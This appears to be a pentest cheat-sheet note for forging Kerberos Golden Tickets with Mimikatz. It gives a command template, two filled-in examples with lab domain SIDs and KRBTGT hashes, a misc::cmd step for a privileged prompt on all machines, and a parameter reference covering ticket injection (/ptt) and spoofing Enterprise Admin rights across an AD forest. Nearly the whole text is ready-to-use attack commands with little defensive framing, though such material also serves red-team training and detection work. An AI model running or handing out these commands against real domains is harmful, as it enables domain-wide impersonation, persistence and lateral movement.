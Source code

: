 basic to create a Golden Ticket
```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```
one example:
```
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-3893474861-143125734-2112006029 /krbtgt:78558f004296a6f9438f4532164a7acd /id:500
```

alternative

```
.\mimikatz.exe "kerberos::golden /User:Administrator /domain:rd.lab.adsecurity.org /id:512 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```
1.) 
```
misc::cmd
```
This will open a new command prompt with elevated privileges to all machines


2.) Access other Machines! - You will now have another command prompt with access to all other machines on the network



Use the Golden Ticket to access other machine -

Mimikatz Golden Ticket Command Reference:

The Mimikatz command to create a golden ticket is “kerberos::golden”

* /domain – the fully qualified domain name. In this example: “lab.adsecurity.org”.
* /sid – the SID of the domain. In this example: “S-1-5-21-1473643419-774954089-2222329127”.
* /sids – Additional SIDs for accounts/groups in the AD forest with rights you want the ticket to spoof. Typically, this will be the Enterprise Admins group for the root domain “S-1-5-21-1473643419-774954089-5872329127-519”. 
* /user – username to impersonate
* /groups (optional) – group RIDs the user is a member of (the first is the primary group).
Add user or computer account RIDs to receive the same access.
Default Groups: 513,512,520,518,519 for the well-known Administrator’s groups (listed below).
* /krbtgt – NTLM password hash for the domain KDC service account (KRBTGT). Used to encrypt and sign the TGT.
* /ticket (optional) – provide a path and name for saving the Golden Ticket file to for later use or use /ptt to immediately inject the golden ticket into memory for use.
* /ptt – as an alternate to /ticket – use this to immediately inject the forged ticket into memory for use.
* /id (optional) – user RID. Mimikatz default is 500 (the default Administrator account RID).
* /startoffset (optional) – the start offset when the ticket is available (generally set to –10 or 0 if this option is used). Mimikatz Default value is 0.
* /endin (optional) – ticket lifetime. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 10 hours (600 minutes).
* /renewmax (optional) – maximum ticket lifetime with renewal. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 7 days (10,080 minutes).
* /sids (optional) – set to be the SID of the Enterprise Admins group in the AD forest ([ADRootDomainSID]-519) to spoof Enterprise Admin rights throughout the AD forest (AD admin in every domain in the AD Forest).
* /aes128 – the AES128 key
* /aes256 – the AES256 key
